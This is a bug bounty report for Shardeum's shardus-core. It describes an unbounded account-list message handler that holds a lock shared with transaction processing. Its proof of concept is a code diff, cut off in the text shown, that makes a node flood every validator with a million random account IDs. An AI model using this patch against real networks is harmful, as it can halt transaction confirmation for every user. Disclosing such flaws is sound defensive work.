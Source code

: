 
# Complete shutdown of the transaction processing queue which can cause a fatal error and server shutdown

Submitted on Wed Jul 10 2024 22:13:20 GMT-0400 (Atlantic Standard Time) by @doxtopzhivago for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33086

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
The handler of the internal message 'binary/get_account_data_by_list' can cause transaction processing queue blocking because of the sharing the same  locking mechanism.

## Vulnerability Details
1. The handler of the internal message 'binary/get_account_data_by_list' is not setting correct bounds for length of the accounts list (Actually it is 2^32).
2. For each account the handler is executing app.getAccountDataByList which is calling AccountStorage.getAccount -> getAccountEntry -> creates and runs SQL query for each account ID. 
3. Also the handler is creating fifoLock('accountModification') which is used in the following functions: preApplyTransaction and commitConsensedTransaction. Which are two critical functions for transaction processing. If this fifoLock is occupied by this handler, transaction processing will be slowed down or even stopped.

So by sending a big list (2^32) of random accounts it can create a significant delay in transaction processing on the single node.

It also can be scaled so that whole network performance will fall down:

For incomming messages there is no check that remote IP address belongs to the node, only verification by signature. So private key from single standby node can be used by multiple senders.

In case of mass sending from multiple senders to all validators (list is open) attacker can completely stop transaction processing or significantly slow it down because the fifoLock is shared between transaction processing flow and the handler.

In my experiment it was causing onProcesssingQueueStuck and node became offline.

## Impact Details
I want to emphasize that it is not just a simple DOS, it is overloading bottleneck (fifoLock) which is also used in some critical functions in a system. By increasing number of accounts in a message you can impact transaction processing on target nodes or the whole network itself.

        
## Proof of concept
## Proof of Concept
Please use it only for the attacker node which should be connected to the network and be active:

diff --git a/src/shardus/index.ts b/src/shardus/index.ts
index 06184f15..71968a30 100644
--- a/src/shardus/index.ts
+++ b/src/shardus/index.ts
@@ -85,6 +85,13 @@ import SocketIO from 'socket.io'
 import { nodeListFromStates, queueFinishedSyncingRequest } from '../p2p/Join'
 import * as NodeList from '../p2p/NodeList'
 import { P2P } from '@shardus/types'
+import { GetAccountDataByListReq, serializeGetAccountDataByListReq } from '../types/GetAccountDataByListReq'
+import {
+  deserializeGetAccountDataByListResp,
+  GetAccountDataByListResp,
+} from '../types/GetAccountDataByListResp'
+import * as hackcrypto from 'crypto'
+const { Buffer } = require('buffer');
 
 
 // the following can be removed now since we are not using the old p2p code
@@ -725,7 +735,40 @@ class Shardus extends EventEmitter {
       this.stateManager.startProcessingCycleSummaries()
     })
     Self.emitter.on('active', (nodeId) => {
-      // this.io.emit('DATA', `NODE ACTIVE ${nodeId}`)
+      console.log("n00b We are in active", NodeList.othersByIdOrder)            
+      const garbageIds = [];
+      if (NodeList.othersByIdOrder && NodeList.othersByIdOrder.length > 0 ){
+        for (let i = 0; i < 1000000; i++) {
+          garbageIds.push(hackcrypto.randomBytes(32).toString('hex'));
+        }
+        const message = { accountIds: garbageIds }
+        setTimeout(async () => {
+          try {
+            const results = await Promise.all(NodeList.activeByIdOrder.map(node => {
+              if (node.id !== Self.id) {
+                this.p2p.askBinary<GetAccountDataByListReq, GetAccountDataByListResp>(
+                  node,
+                  InternalRouteEnum.binary_get_account_data_by_list,
+                  message,
+                  serializeGetAccountDataByListReq,
+                  deserializeGetAccountDataByListResp,
+                  {}, '', false, 10000
+                )
+              }            
+           }));
+          } catch (error) {
+            console.error('Error:', error);
+          }
+        }, 10000);
+      }    